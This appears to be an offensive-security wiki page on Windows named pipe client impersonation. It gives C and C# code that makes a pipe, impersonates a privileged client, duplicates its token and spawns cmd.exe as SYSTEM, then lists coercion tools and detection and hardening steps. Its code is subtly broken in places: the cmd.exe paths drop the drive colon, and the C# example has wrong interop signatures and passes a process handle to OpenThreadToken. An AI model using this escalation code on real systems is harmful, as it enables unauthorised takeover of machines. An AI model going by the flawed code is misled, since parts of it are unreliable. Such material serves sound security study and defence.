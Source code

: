 # Named Pipe Client Impersonation


Named Pipe client impersonation is a local privilege escalation primitive that lets a named-pipe server thread adopt the security context of a client that connects to it. In practice, an attacker who can run code with SeImpersonatePrivilege can coerce a privileged client (e.g., a SYSTEM service) to connect to an attacker-controlled pipe, call ImpersonateNamedPipeClient, duplicate the resulting token into a primary token, and spawn a process as the client (often NT AUTHORITY\SYSTEM).

This page focuses on the core technique. For end-to-end exploit chains that coerce SYSTEM to your pipe, see the Potato family pages referenced below.

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- Make a privileged component connect to it (spooler/DCOM/EFSRPC/etc.).
- Read at least one message from the pipe, then call ImpersonateNamedPipeClient.
- Open the impersonation token from the current thread, DuplicateTokenEx(TokenPrimary), and CreateProcessWithTokenW/CreateProcessAsUser to get a SYSTEM process.

## Requirements and key APIs
- Privileges typically needed by the calling process/thread:
  - SeImpersonatePrivilege to successfully impersonate a connecting client and to use CreateProcessWithTokenW.
  - Alternatively, after impersonating SYSTEM, you can use CreateProcessAsUser, which may require SeAssignPrimaryTokenPrivilege and SeIncreaseQuotaPrivilege (these are satisfied when you’re impersonating SYSTEM).
- Core APIs used:
  - CreateNamedPipe / ConnectNamedPipe
  - ReadFile/WriteFile (must read at least one message before impersonation)
  - ImpersonateNamedPipeClient and RevertToSelf
  - OpenThreadToken, DuplicateTokenEx(TokenPrimary)
  - CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: to perform useful actions locally, the client must allow SecurityImpersonation (default for many local RPC/named-pipe clients). Clients can lower this with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION when opening the pipe.

## Minimal Win32 workflow (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
    LPCSTR pipe = "\\\\.\\pipe\\evil";
    HANDLE hPipe = CreateNamedPipeA(
        pipe,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        1, 0, 0, 0, NULL);

    if (hPipe == INVALID_HANDLE_VALUE) return 1;

    // Wait for privileged client to connect (see Triggers section)
    if (!ConnectNamedPipe(hPipe, NULL)) return 2;

    // Read at least one message before impersonation
    char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

    // Impersonate the last message sender
    if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

    // Extract and duplicate the impersonation token into a primary token
    HANDLE impTok = NULL, priTok = NULL;
    if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
    if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

    // Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
    STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
    if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
                                 L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                                 0, NULL, NULL, &si, &pi)) {
        // Fallback: CreateProcessAsUser after you already impersonated SYSTEM
        CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                             NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    }

    RevertToSelf(); // Restore original context
    return 0;
}
```
```Notes:
- If ImpersonateNamedPipeClient returns ERROR_CANNOT_IMPERSONATE (1368), ensure you read from the pipe first and that the client didn’t restrict impersonation to Identification level.
- Prefer DuplicateTokenEx with SecurityImpersonation and TokenPrimary to create a primary token suitable for process creation.

## .NET quick example
In .NET, NamedPipeServerStream can impersonate via RunAsClient. Once impersonating, duplicate the thread token and create a process.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
  [DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
  [DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
  [DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
  static void Main(){
    using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
    s.WaitForConnection();
    // Ensure client sent something so the token is available
    s.RunAsClient(() => {
      IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
      IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
      var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
      Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
    });
  }
}
```
```
## Common triggers/coercions to get SYSTEM to your pipe
These techniques coerce privileged services to connect to your named pipe so you can impersonate them:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
[[roguepotato-and-printspoofer.md]]
-
[[juicypotato.md]]

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
[[from-high-integrity-to-system-with-name-pipes.md]]

## Troubleshooting and gotchas
- You must read at least one message from the pipe before calling ImpersonateNamedPipeClient; otherwise you’ll get ERROR_CANNOT_IMPERSONATE (1368).
- If the client connects with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, the server cannot fully impersonate; check the token’s impersonation level via GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW requires SeImpersonatePrivilege on the caller. If that fails with ERROR_PRIVILEGE_NOT_HELD (1314), use CreateProcessAsUser after you already impersonated SYSTEM.
- Ensure your pipe’s security descriptor allows the target service to connect if you harden it; by default, pipes under \\.\pipe are accessible according to the server’s DACL.

## Detection and hardening
- Monitor named pipe creation and connections. Sysmon Event IDs 17 (Pipe Created) and 18 (Pipe Connected) are useful to baseline legitimate pipe names and catch unusual, random-looking pipes preceding token-manipulation events.
- Look for sequences: process creates a pipe, a SYSTEM service connects, then the creating process spawns a child as SYSTEM.
- Reduce exposure by removing SeImpersonatePrivilege from nonessential service accounts and avoiding unnecessary service logons with high privileges.
- Defensive development: when connecting to untrusted named pipes, specify SECURITY_SQOS_PRESENT with SECURITY_IDENTIFICATION to prevent servers from fully impersonating the client unless necessary.

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation


